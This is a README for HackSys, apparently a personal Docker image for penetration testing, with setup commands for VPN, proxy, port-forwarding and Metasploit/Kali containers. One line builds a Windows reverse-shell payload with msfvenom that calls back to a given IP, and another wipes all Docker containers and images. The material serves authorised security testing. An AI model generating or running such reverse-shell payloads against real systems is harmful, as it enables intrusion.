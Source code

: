 [![License: MIT](https://img.shields.io/badge/License-MIT-blue.svg)](https://github.com/antfie/HackSys/blob/master/LICENSE)

# HackSys

HackSys is a Docker image Anthony uses for penetration testing. It's main features are:

* Alpine based
* <4GB
* Security tools installed:
  * nmap
  * [sqlmap](http://sqlmap.org/)
  * [impacket](https://github.com/SecureAuthCorp/impacket)
  * SecLists
  * searchsploit
  * [evil-winrm](https://github.com/Hackplayers/evil-winrm)
  * [CeWL](https://digi.ninja/projects/cewl.php)
  * wfuzz
* Development tools installed:
  * Python
  * Go
  * Java
  * Ruby
* Easy to add in new capabilities via `apk add`
* Has a built-in SOCKS5 proxy (via SSH tunnel)
* Zsh

## Running

First pull down the latest container:

```
docker pull antfie/hacksys
```

### VPN

Ensure there is a single openVPN configuration file within the curreent directory and run the main VPN container with this:

```
docker run --rm -it -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn
```

### SOCKS5 Proxy (For Burp)

```
docker run --rm -it --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys
```

### Port Forward

To port forward for example RDP (3389) from 192.168.162.120:

```
docker run --rm -it --network=container:vpn --entrypoint fwd -e FWD_TO=192.168.162.120:3389 antfie/hacksys
```

### General Host

Use this command for most activities:

```
docker run --rm -it --network=container:vpn -v $PWD:/app antfie/hacksys
```

To mount stuff e.g. NFS shares you will need to add this parameter `--cap-add SYS_ADMIN`.

### Other Tools

It's easy to attach other tools to the VPN container to make use of the VPN connection.

#### Metasploit

```
docker run --rm -it --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework
```

#### MSF Venom

```
docker run --rm -it --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework
```

To use MSF Venom:

```
./msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.32 LPORT=4189 -f csharp > /app/x
```

#### Kali

```
docker run --rm -it --network=container:vpn -v $PWD:/app kalilinux/kali-rolling
```

## Building

```
docker pull alpine
docker build -t antfie/hacksys .
```

## Docker Maintenance

Remove all containers and images:

```
docker rm -f $(docker ps -a -q)
docker rmi $(docker images -q)
```

## Useful Shell Aliases

```zsh
alias hsv='dr -v $PWD/`ls *.ovpn`:/app/vpn --cap-add=NET_ADMIN --device /dev/net/tun --name vpn -p 127.0.0.1:9000-9100:9000-9100 --sysctl net.ipv6.conf.all.disable_ipv6=0 --entrypoint openvpn antfie/hacksys vpn'
alias hsp='dr --network=container:vpn --name proxy --entrypoint proxy antfie/hacksys'
alias hs='dr --network=container:vpn -v $PWD:/app antfie/hacksys'
alias hsm='dr --network=container:vpn -v $PWD:/app metasploitframework/metasploit-framework'
alias hsmv='dr --network=container:vpn -v $PWD:/app --entrypoint bash metasploitframework/metasploit-framework'
alias hsk='dr --network=container:vpn -v $PWD:/app kalilinux/kali-rolling'
```